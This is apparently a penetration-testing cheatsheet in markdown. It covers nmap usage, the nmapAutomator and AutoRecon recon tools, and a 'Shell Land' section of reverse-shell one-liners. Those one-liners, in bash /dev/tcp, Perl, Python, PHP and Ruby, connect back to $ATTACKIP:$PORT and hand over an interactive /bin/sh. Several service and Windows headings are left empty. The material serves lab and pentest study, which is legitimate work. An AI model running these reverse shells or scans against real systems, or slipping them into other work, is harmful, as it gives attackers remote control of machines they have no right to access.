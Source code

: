 ```yaml
---
sort: 1
---
```


# Cheatsheet

Tips on automated tools
> These tools help automate nmap/gobuster/nikto etc and doesn't automatically test exploits

## Nmap
[nmapAutomator](https://github.com/21y4d/nmapAutomator) by 21y4d
```
nmapAutomator.sh <TARGET-IP> <TYPE>
                                                      
Scan Types:                                           
        Quick:  Shows all open ports quickly (~15 seconds)                                                  
        Basic:  Runs Quick Scan, then runs a more thorough scan on found ports (~5 minutes)                 
        UDP:    Runs "Basic" on UDP ports (~5 minutes)
        Full:   Runs a full range port scan, then runs a thorough scan on new ports (~5-10 minutes)         
        Vulns:  Runs CVE scan and nmap Vulns scan on all found ports (~5-15 minutes)                        
        Recon:  Suggests recon commands, then prompts to automatically run them                             
        All:    Runs all the scans (~20-30 minutes)   
```
Scan one IP at a time, All scans: nmap quick/udp(if sudo)/allports/vuln script/cve scan, web(Have gobuster+Nikto installed) 

```scss
nmapAutomator $TARGETip All
```

[AutoRecon](https://github.com/Tib3rius/AutoRecon) by Tib3rius
```
usage: autorecon [-h] [-t TARGET_FILE]                                                                             
                 [-ct <number>] [-cs <number>]                                                                     
                 [--profile PROFILE_NAME]                                                                          
                 [-o OUTPUT_DIR] [--single-target]                                                                 
                 [--only-scans-dir]                                                                                
                 [--heartbeat HEARTBEAT]                                                                           
                 [--nmap NMAP | --nmap-append NMAP_APP                                                             END]                                                                                                               
                 [-v] [--disable-sanity-checks]                                                                    
                 [targets [targets ...]]

Network reconnaissance tool to port scan and automatically enumerate services found on multiple
targets.
```
Can very, recommend to do one IP at a time because the VMs can be very slow
```scss
autorecon $TARGETip -o /destinationfile --single-target
```

General Enumeration/Recon with Nmap
```scss
//Initial
nmap -Pn -n -v -oN nmap/Initial $TARGETip

//Partial
nmap -Pn -n -v -p1-500 -oN nmap/partial $TARGETip

//AllPorts
nmap -Pn -n -v -p- -oN nmap/allports $TARGETip

//Targeted, specifiy which -pPORT to target
nmap -Pn -n -v -p22,80,139 -oN nmap/targeted $TARGETip

//UDP
sudo nmap -Pn -n -v -sU -oN nmap/udp $TARGETip

```
## File Transfers (FTP) - Port 21
## Secure Shell (SSH) - Port 22
## Domain Name System (DNS) - Port 53
## Hypertext Transfer (HTTP/S) - Port 80/443 
## Mail (POP3/SNMP) - Port 110/161 
## File Sharess (NFS|SMB) - Port 2049 | 139/445

## Shell Land
Find a command execution vulnerability -> get an interactive shell

Examples should work cross to the windows platform and subsitute '/bin/sh -i' with 'cmd.exe'

Citing pentestmonkey's blog post:

    If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell. 

    [...] your next step is likely to be either throwing back a reverse shell or binding a shell to a TCP port. 

    Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

### Linux
**Change $ATTACKIP & $PORT**

```scss
//BASH

bash -i >& /dev/tcp/$ATTACKIP/$PORT 0>&1

//PERL

perl -e 'use Socket;$i="$attackip";$p=$port;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'


//PYTHON

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((" $ATTACKIP ",$PORT));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

//PHP

php -r '$sock=fsockopen(" $ATTACKIP ",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

//RUBY

ruby -rsocket -e'f=TCPSocket.open(" $ATTACKIP ",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

//NetCat
//Java
//xterm


```
### Windows

